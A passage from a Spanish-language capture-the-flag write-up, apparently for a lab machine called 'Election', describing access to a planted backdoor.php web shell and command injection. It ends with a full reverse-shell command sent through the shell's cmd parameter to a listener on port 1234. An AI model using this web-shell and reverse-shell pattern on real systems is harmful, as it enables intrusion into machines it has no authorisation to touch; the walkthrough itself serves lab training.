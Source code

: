 Vamos a darle a go.

![](/imagenes/Election/15.png)

Si todo ha salido bien, deberiamos tenemos entonces un nuevo directorio llamado backdoor.php en la página web, donde seremos capaces de injectar comandos:

![](/imagenes/Election/16.png)

Vemos que no sale nada, pero no dice que no existe, esto es una buena señal pues debería estar interpretando el código php, vamos entonces a intentar injectar código:

![](/imagenes/Election/17.png)

Excelente, tenemos **RCE** ahora solo falta ganar acceso al sistema, prepararemos nuestro listener en el puerto **1234** y en la web pondremos:
```
http://172.26.65.86/backdoor.php?cmd=bash -c 'bash -i >%26 /dev/tcp/172.26.70.49/1234 0>%261'
```
